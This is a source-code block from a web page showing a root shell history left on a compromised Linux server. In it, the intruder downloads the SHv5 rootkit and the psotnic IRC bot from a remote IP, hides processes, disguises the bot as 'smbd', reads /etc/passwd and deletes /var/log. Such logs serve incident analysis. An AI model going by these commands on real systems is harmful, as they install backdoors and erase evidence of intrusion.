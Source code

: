 <pre><ol class="dp-xml"><li class="alt"><span><span>root@server1:~#&nbsp;cat&nbsp;-n&nbsp;.bash_history&nbsp;</span></span></li><li><span>&nbsp;&nbsp;&nbsp;...&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;340&nbsp;&nbsp;w&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;341&nbsp;&nbsp;cd&nbsp;/var&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;342&nbsp;&nbsp;wget&nbsp;http://83.19.148.250/~matys/pliki/shv5.tar.gz&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;343&nbsp;&nbsp;tar&nbsp;-zxf&nbsp;shv5.tar.gz&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;344&nbsp;&nbsp;rm&nbsp;-rf&nbsp;shv5.tar.gz&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;345&nbsp;&nbsp;mv&nbsp;shv5&nbsp;.x&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;346&nbsp;&nbsp;cd&nbsp;.x&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;347&nbsp;&nbsp;./setup&nbsp;zibi.joe.149&nbsp;54098&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;348&nbsp;&nbsp;passwd&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;349&nbsp;&nbsp;passwd&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;350&nbsp;&nbsp;ps&nbsp;aux&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;351&nbsp;&nbsp;crontab&nbsp;-l&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;352&nbsp;&nbsp;cat&nbsp;/etc/issue&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;353&nbsp;&nbsp;cat&nbsp;/etc/passwd&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;354&nbsp;&nbsp;w&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;355&nbsp;&nbsp;who&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;356&nbsp;&nbsp;cd&nbsp;/usr/lib/libsh&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;357&nbsp;&nbsp;ls&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;358&nbsp;&nbsp;hide&nbsp;+&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;359&nbsp;&nbsp;chmod&nbsp;+x&nbsp;hide&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;360&nbsp;&nbsp;hide&nbsp;+&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;361&nbsp;&nbsp;./hide&nbsp;+&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;362&nbsp;&nbsp;cd&nbsp;/var/.x&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;363&nbsp;&nbsp;mkdir&nbsp;psotnic&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;364&nbsp;&nbsp;cd&nbsp;psotnic&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;365&nbsp;&nbsp;wget&nbsp;http://83.19.148.250/~matys/pliki/psotnic0.2.5.tar.gz&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;366&nbsp;&nbsp;tar&nbsp;-zxf&nbsp;psotnic0.2.5.tar.gz&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;367&nbsp;&nbsp;rm&nbsp;-rf&nbsp;psotnic0.2.5.tar.gz&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;368&nbsp;&nbsp;ls&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;369&nbsp;&nbsp;mv&nbsp;psotnic-0.2.5-linux-static-ipv6&nbsp;synscan&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;370&nbsp;&nbsp;./synscan&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;371&nbsp;&nbsp;vi&nbsp;conf&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;372&nbsp;&nbsp;vi&nbsp;conf1&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;373&nbsp;&nbsp;mv&nbsp;synscan&nbsp;smbd&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;374&nbsp;&nbsp;smbd&nbsp;-c&nbsp;conf&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;375&nbsp;&nbsp;ls&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;376&nbsp;&nbsp;ps&nbsp;aux&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;377&nbsp;&nbsp;ls&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;378&nbsp;&nbsp;./smbd&nbsp;-c&nbsp;conf&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;379&nbsp;&nbsp;./smbd&nbsp;-c&nbsp;conf1&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;380&nbsp;&nbsp;./smbd&nbsp;conf&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;381&nbsp;&nbsp;./smbd&nbsp;conf1&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;382&nbsp;&nbsp;./smbd&nbsp;-a&nbsp;conf&nbsp;conf1&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;383&nbsp;&nbsp;rm&nbsp;-rf&nbsp;conf.dec&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;384&nbsp;&nbsp;rm&nbsp;-rf&nbsp;conf1.dec&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;385&nbsp;&nbsp;cd&nbsp;/usr/lib/libsh&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;386&nbsp;&nbsp;./hide&nbsp;+&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;387&nbsp;&nbsp;exit&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;...&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;425&nbsp;&nbsp;ssh&nbsp;ftp@62.101.251.166&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;426&nbsp;&nbsp;w&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;427&nbsp;&nbsp;ls&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;428&nbsp;&nbsp;ls&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;429&nbsp;&nbsp;cd&nbsp;/var/.x&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;430&nbsp;&nbsp;ls&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;431&nbsp;&nbsp;cd&nbsp;psotnic/&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;432&nbsp;&nbsp;ls&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;433&nbsp;&nbsp;rm&nbsp;-rf&nbsp;/var/log/*&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;434&nbsp;&nbsp;exit&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;435&nbsp;&nbsp;ls&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;436&nbsp;&nbsp;cd&nbsp;/var/.x/psotnic/&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;437&nbsp;&nbsp;ls&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;438&nbsp;&nbsp;vi&nbsp;conf2&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;439&nbsp;&nbsp;./smbd&nbsp;-c&nbsp;conf2&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;440&nbsp;&nbsp;./smbd&nbsp;conf2&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;441&nbsp;&nbsp;./smbd&nbsp;-a&nbsp;conf&nbsp;conf1&nbsp;conf2&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;442&nbsp;&nbsp;rm&nbsp;-rf&nbsp;conf2.dec&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;443&nbsp;&nbsp;cd&nbsp;..&nbsp;</span></li><li class="alt">